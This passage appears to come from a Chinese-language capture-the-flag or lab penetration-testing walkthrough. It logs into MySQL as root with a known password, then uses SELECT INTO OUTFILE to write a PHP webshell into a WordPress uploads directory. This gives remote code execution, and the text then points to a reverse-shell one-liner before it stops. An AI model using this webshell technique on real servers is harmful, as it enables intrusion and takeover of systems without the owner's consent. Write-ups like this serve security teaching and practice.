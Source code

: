 ```
mysql --user=root --password=plbkac --host=192.168.15.151
```

我们可以在`mysql`将任意文件写入磁盘。然而，我们需要知道可以输出和执行文件的目录的完整路径。Web 目录通常在`/var/www/`目录之外。我们的上传文件夹是`/blogblog/wp-content/uploads/`，但是因为有不同的服务在`http`和`https`上运行，我们必须在这两个路径之间指定它，以获得我们写文件的完整路径:

```
/var/www/https/blogblog/wp-content/uploads/
```

要在`mysql`中写入文件，您可以提供一个文字字符串参数作为`select`语句，并用输出的路径和文件名写入`into outfile`。在本例中，我使用了一个小的 php webshell:

```
<?php echo shell_exec($_GET[‘cmd’]);?>
```

编写这个 webshell 的整个`mysql`语句是:

```
select “<?php echo shell_exec($_GET[‘cmd’]);?>” into outfile ‘/var/www/https/blogblog/wp-content/uploads/shell.php’;
```

![](img/d413c458f43da5984d8d5b284b1ab4ab.png)

mysql webshell

现在，我们可以在浏览器中远程执行代码:

![](img/894461405665375617baa7c7d42b3d87.png)

远程代码执行

我们可以使用来自 [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 的 oneliner 来生成一个反向 shell:
